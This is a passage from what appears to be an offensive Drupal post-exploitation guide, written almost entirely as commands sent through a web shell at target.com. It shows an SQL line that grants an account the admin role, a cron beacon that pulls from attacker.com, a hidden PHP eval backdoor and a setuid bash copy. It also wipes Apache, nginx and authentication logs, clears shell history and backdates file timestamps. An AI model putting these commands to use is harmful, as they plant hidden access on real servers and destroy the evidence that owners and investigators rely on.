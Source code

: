 ```bash
INSERT INTO users_roles (uid, rid) 
SELECT uid, 3 FROM users WHERE name = 'sysadmin';
```

#### Crontab Persistence
```bash
# Establish cron-based backdoor
curl "http://target.com/shell.php?cmd=echo+'*/5+*+*+*+*+wget+-q+-O-+http://attacker.com/beacon+>+/dev/null'+|+crontab+-"

# Alternative: systemd timer (modern systems)
curl "http://target.com/shell.php?cmd=systemctl+--user+enable+backdoor.timer"
```

#### File System Persistence
```bash
# Hide backdoor in Drupal cache directory
curl "http://target.com/shell.php?cmd=echo+'<?php+eval(\$_GET[x]);?>'+>+/var/www/html/sites/default/files/.cache.php"

# Create hidden system service
curl "http://target.com/shell.php?cmd=cp+/bin/bash+/tmp/.system-update"
curl "http://target.com/shell.php?cmd=chmod+u+s+/tmp/.system-update"
```

### Defense Evasion Techniques

#### Log Cleaning & Anti-Forensics
```bash
# Clear web server access logs
curl "http://target.com/shell.php?cmd=echo+''>/var/log/apache2/access.log"
curl "http://target.com/shell.php?cmd=echo+''>/var/log/nginx/access.log"

# Clear system authentication logs
curl "http://target.com/shell.php?cmd=echo+''>/var/log/auth.log"
curl "http://target.com/shell.php?cmd=echo+''>/var/log/secure"

# Remove command history
curl "http://target.com/shell.php?cmd=history+-c"
curl "http://target.com/shell.php?cmd=unset+HISTFILE"
```

#### Timestamp Manipulation
```bash
# Preserve original file timestamps
curl "http://target.com/shell.php?cmd=stat+/var/www/html/index.php"
# Note original timestamp

# After modifications, restore timestamp
curl "http://target.com/shell.php?cmd=touch+-t+202301151430.00+/var/www/html/backdoor.php"
```

---